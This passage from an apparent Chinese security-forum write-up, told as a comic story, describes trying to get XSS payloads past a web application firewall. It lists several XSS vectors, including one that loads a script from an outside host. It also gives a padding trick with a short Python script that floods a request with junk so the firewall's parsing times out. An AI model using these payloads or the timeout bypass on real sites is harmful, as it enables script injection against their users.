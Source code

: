 ```php
<script>location.href;'javascript:a lert(1)'</script>
<svg>
<a xml:b ase="javascript:a lert(1)//" href="#"><circle r="100" />
</svg>
<math xml:b ase="javascript:a lert(1)//">
    <mrow href="#">qwe</mrow>
</math>
'>--><script/src=//go.bmoine.fr/xss>
<% style=behavior:url(: onreadystatechange=a lert(1)>
<script src="/ゝhttp://html5sec.org/test.js "></script>
```

很遗憾上面的所有payload，我都手工进行了测试，并且尝试组合改进一些语句结构。

不过还是全部被拦截了，此时女神WAF的笑声越来越大，似乎在嘲笑我的无能与弱小。

可是我已经打掉了所有底牌了，此时此刻的我，感觉已经被女神(WAF)拿捏住了，在女神(WAF)面前，我的骚操作跟小丑表演没啥区别。

难道屌丝就不能反击吗？ 难道咸鱼只能是咸味的吗？ 我不断地叩问自己的灵魂深处，希望能寻找到一些答案，然而结果是一片无声的死寂，我痴痴地望着唾手可得的女神(WAF)，所谓什么近水楼台都是狗屁，我终归不是她的命中人，此生就此结束吧，活着已经没有任何意义了，我扬起嘴角对女神笑了笑，转头一股脑撞向迎面而来的神秘卡车，顿时，鲜血直流，在意识模糊之际，我竟然看到了老哥带着0day飞奔而来，直接RCE将女神WAF给收服了，看着我，遗憾地说了句："终究是来晚了吗，菜是原罪呀，好弟弟，如果有来世，一定要好好学习！"，刹那间，我的眼角不争气地留下了泪水，终于要告别这个世界了吗，一切都结束了吧!

0x5 重生之开挂人生
-----------

当我以为一切都尘埃落地，所有的故事已成定局的时候，我却再次睁开了眼，咦，这里是哪里？

此时，一个声音好好听的小姐姐，向我娓娓道来，"欢迎来到超级AI智能化虚拟世界，作为我们的第10000000001编号的新成员，你可以向超级AI提出一个任意要求，都会满足你的哦！"

我抬头看了看，眼前那傻不拉几且呆头呆脑的AI机器人，就这？ 算了，姑且一试吧，提什么要求好呢？

看着眼前琳琅满目的小姐姐，只有小孩子才会选择，大人我全都要，我擦了擦嘴角的口水，向超级AI迫不及待地询问道："能不能告诉我某网站应用防火墙的绕过技巧？"

此时超级AI面容失色，显然没意料到我会提出这个问题，不过很快，超级AI调整了状态，严肃地回答我说:"一生二、二生三、三生万物，所有的东西必然有其软肋，要找到其核心痛点，再狠狠击破。"

听完超级AI的话，我若有所思，WAF的痛点，应该就是精确区分正常业务数据和攻击向量，还有就是不能干扰到业务的正常进行，首先作区分，就要对数据进行解析，然后再分析，如果我在这个环节，通过传入巨量的数据，造成WAF解析超时，那么WAF为了不影响正常业务，是不是会对数据进行放行呢？ 放行之后，如果后端也没对传入的数据做限制，然后传入的数据也满足应用的内存资源，那么一切就变得简单了。

不管三七二十一,写个简单的脚本填充数据。

```php
#!/usr/bin/python
# -*- coding:utf-8 -*-
from random import randint
with open('tempStr.txt','a+') as f:
    f.write(chr(randint(0,255))*1000000)
f.close()
```

![image-20210703115731401](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-15479c3049343f524788c4ad9890b531fc48d0fe.png)

小小等待几秒后端去处理，好家伙，你咋不继续拦截了呢？ 难道事情就这么简单？急忙回去看页面。

![image-20210703120759065](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-977562afce4d3c01e227696f3c85d799fcd5ab65.png)

![image-20210703120820057](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-03271baed51caf5eae85e642678ce38673cd8341.png)
